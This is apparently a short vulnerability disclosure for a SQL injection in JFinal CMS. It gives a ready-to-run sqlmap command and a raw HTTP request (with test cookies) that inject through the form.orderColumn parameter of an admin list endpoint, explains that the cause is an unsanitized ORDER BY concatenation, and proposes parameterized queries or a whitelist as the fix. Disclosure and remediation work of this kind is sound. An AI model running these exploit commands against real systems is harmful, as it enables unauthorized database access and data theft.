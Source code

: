 # POC

First of all  you should install sqlmap

you need set 

- target domain or IP
- your cookie

the run the shell

```
sqlmap -u http://targetDomainOrIP/jfinal_cms/jfinal_cms/admin/folderrollpicture/list  --thread 8 --batch --smart  --random-agent --data "form.orderColumn=*&form.orderAsc=&form.orderColumn=&form.orderAsc=&attr.folder_id=258&totalRecords=0&pageNo=1&pageSize=20&length=10"  --cookie "  your cookie  " --current-db
```

![image-20220730054545363](image-20220730054545363.png)

Sometimes  you should know that  the /jfinal_cms/    is not necessary ,you need juede the route

# principle

you can see the code of interface   /system/menu/list

```
sql.append(" order by ").append(orderBy);
```

There is a sql statement directly spliced

what is more 

There is no measure to prevent sql injection because sql injection is required here

# solution

By analyzing this function point, I found that the injection of orderby is fixed, such as id, name, menu key, so you can try to use parameterized query or make a whitelist





# my Test

```
POST /jfinal_cms/admin/folderrollpicture/list HTTP/1.1
Host: 172.30.48.1
Content-Length: 130
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.30.48.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.30.48.1/jfinal_cms/admin/home
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=BF13B42EDFC3DEC180959D6DF143BD18; Hm_lvt_1040d081eea13b44d84a4af639640d51=1659122360; session_user="wgPmpe3hEuJWIL+I+kHtxqag1wutWsMhm6eaAgoJH0c="
Connection: close

form.orderColumn=*&form.orderAsc=&form.orderColumn=&form.orderAsc=&attr.folder_id=258&totalRecords=0&pageNo=1&pageSize=20&length=10
```

